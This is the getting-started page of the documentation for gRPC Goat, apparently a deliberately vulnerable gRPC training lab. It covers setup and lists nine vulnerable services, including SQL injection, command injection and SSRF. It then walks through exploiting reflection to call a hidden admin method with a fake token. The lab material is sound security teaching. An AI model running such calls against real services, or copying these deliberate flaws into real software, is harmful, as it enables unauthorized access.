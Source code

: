 ```yaml
---
title: 'Installation & Getting Started'
description: 'Set up your gRPC Goat lab environment and run your first vulnerability test'
order: 3
---
```



# Installation & Getting Started

Welcome to gRPC Goat! This guide will help you set up your lab environment and run your first vulnerability test.

<Aside type="tip">
**Quick Start**: If you're familiar with Docker, jump to the [Quick Commands](#quick-commands) section to get started immediately.
</Aside>

## Prerequisites

Before you begin, ensure you have the following tools installed on your system:

### Required Tools

1. **Docker & Docker Compose**
   - Docker Engine 20.10+ or Docker Desktop
   - Docker Compose V2 (comes with Docker Desktop)
   - [Download Docker](https://docs.docker.com/get-docker/)

2. **grpcurl** (for testing gRPC services)
   ```bash
   # Install via Go
   go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

   # Or via Homebrew (macOS)
   brew install grpcurl

   # Or via package manager (Ubuntu/Debian)
   sudo apt-get install grpcurl

   # Or download binary from GitHub releases
   # https://github.com/fullstorydev/grpcurl/releases
   ```

3. **Protocol Buffer Files** (for labs 002-009)
   - All required `.proto` files are provided in the `protos/` directory
   - Lab 001 uses gRPC reflection, so no proto file is needed
   - See `protos/README.md` for usage instructions

### Additional gRPC Testing Tools

**Command Line Tools:**
- **grpcurl** - Command-line tool for interacting with gRPC services
- **ghz** - gRPC benchmarking and load testing tool
- **evans** - Interactive gRPC client with REPL interface

**GUI Applications:**
- **Postman** - Popular API client with gRPC support (v8.5.0+)
- **BloomRPC** - Cross-platform gRPC client with GUI interface
- **Kreya** - Modern gRPC and REST API client
- **Insomnia** - API client with gRPC support

### Optional Tools

- **Go 1.21+** (if you want to build from source)
- **Git** (for cloning the repository)

## Installation

### Option 1: Clone from GitHub (Recommended)

```bash
# Clone the repository
git clone https://github.com/rootxjs/grpc-goat.git
cd grpc-goat

# Verify the setup
ls labs/  # Should show 9 lab directories
```

### Option 2: Download Release

Download the latest release from the [GitHub releases page](https://github.com/rootxjs/grpc-goat/releases) and extract it.

## Quick Commands

### Start All Labs at Once

```bash
# Start all 9 vulnerable services
docker compose up --build

# Run in background (detached mode)
docker compose up --build -d

# View logs
docker compose logs -f
```

### Start Individual Labs

```bash
# Example: Start only Lab 001 (gRPC Reflection)
cd labs/grpc-001-reflection-enabled
docker build -t grpc-001 .
docker run -p 8001:8001 grpc-001
```

## Service Endpoints

Once running, the labs will be available on the following ports:

| Lab | Service | Port | Description |
|-----|---------|------|-------------|
| **001** | Service Discovery | `localhost:8001` | gRPC Reflection vulnerability |
| **002** | Auth Service | `localhost:8002` | Plaintext gRPC communications |
| **003** | Billing Service | `localhost:8003` | Insecure TLS implementation |
| **004** | Partner API | `localhost:8004` | Arbitrary mTLS acceptance |
| **005** | Partner API v2 | `localhost:8005` | mTLS with subject validation bypass |
| **006** | Admin Service | `grpc-006 container` | Unix socket with world permissions |
| **007** | User Directory | `localhost:8007` | SQL injection vulnerability |
| **008** | File Processor | `localhost:8008` | Command injection vulnerability |
| **009** | Image Preview | `localhost:8009` | Server-Side Request Forgery (SSRF) |

## Your First Lab: Lab 001 - gRPC Reflection

Let's walk through your first vulnerability test to ensure everything is working correctly.

### Step 1: Start Lab 001

```bash
# Start Lab 001 specifically
docker compose up grpc-001 --build
```

Wait for the message: `gRPC server listening on :8001`

### Step 2: Test the Service

```bash
# Discover available services (this is the vulnerability!)
grpcurl -plaintext localhost:8001 list

# Expected output:
# grpc.reflection.v1alpha.ServerReflection
# servicediscovery.ServiceDiscovery
```

### Step 3: Exploit the Vulnerability

```bash
# List methods in the service
grpcurl -plaintext localhost:8001 list servicediscovery.ServiceDiscovery

# Expected output:
# servicediscovery.ServiceDiscovery.AdminListAllServices
# servicediscovery.ServiceDiscovery.ListServices
```

### Step 4: Capture Your First Flag

```bash
# Call the hidden admin method
grpcurl -plaintext -d '{"admin_token": "fake"}' \
  localhost:8001 servicediscovery.ServiceDiscovery/AdminListAllServices
```

**Congratulations!** You should see a response containing your first flag: `GRPC_GOAT{reflection_enabled_service_discovery}`

## Testing Other Labs

For labs 002-009, you'll need to use the corresponding proto files from the `protos/` directory:

```bash
# Example: Lab 002 - Auth Service
grpcurl -plaintext -proto protos/lab-002-auth.proto \
  -d '{"username": "admin", "password": "password"}' \
  localhost:8002 auth.AuthService/Login

# Example: Lab 007 - SQL Injection
grpcurl -plaintext -proto protos/lab-007-user-directory.proto \
  -d '{"username": "admin"}' \
  localhost:8007 userdirectory.UserDirectory/SearchUsers
```

<Aside type="note">
**Proto Files**: Each lab (except 001) requires its corresponding proto file for client interaction. All proto files are available in the `protos/` directory with detailed usage examples.
</Aside>

## Next Steps

Now that you have your environment set up and have captured your first flag:

1. **Learn gRPC Fundamentals**: If you're new to gRPC, check out the [gRPC Basics](/docs/grpc_goat_docs/grpc-basics) guide
2. **Explore More Labs**: Check out the [Labs Overview](/docs/grpc_goat_docs/labs) to see all 9 vulnerabilities
3. **Follow the Walkthrough**: Use the [Walkthrough Guide](/docs/grpc_goat_docs/walkthrough) for step-by-step exploitation instructions
4. **Learn the Mitigations**: Each lab includes security best practices to prevent these vulnerabilities
5. **Practice with Different Tools**: Try using Postman, BloomRPC, or other gRPC clients to interact with the services

<Aside type="note">
**CTF-Style Learning**: Each lab contains a unique flag that you can capture by successfully exploiting the vulnerability. This gamified approach makes learning gRPC security both engaging and practical.
</Aside>

Ready to dive deeper? Head to the [Walkthrough Guide](/docs/grpc_goat_docs/walkthrough) to learn how to exploit all 9 vulnerabilities!
